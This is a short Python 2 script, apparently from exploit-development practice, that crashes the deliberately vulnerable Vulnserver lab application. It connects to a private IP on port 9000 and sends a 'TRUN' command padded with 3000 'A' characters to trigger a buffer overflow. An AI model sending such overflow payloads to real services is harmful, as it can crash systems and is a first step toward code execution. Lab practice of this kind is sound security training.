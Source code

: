 # BufferOverflow vulnserver_crash
import sys, socket

buff = "TRUN /.:/"

buff += "A" * 3000

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(('192.168.1.110',9000))

print s.recv(1024)

s.send(buff)

s.close()
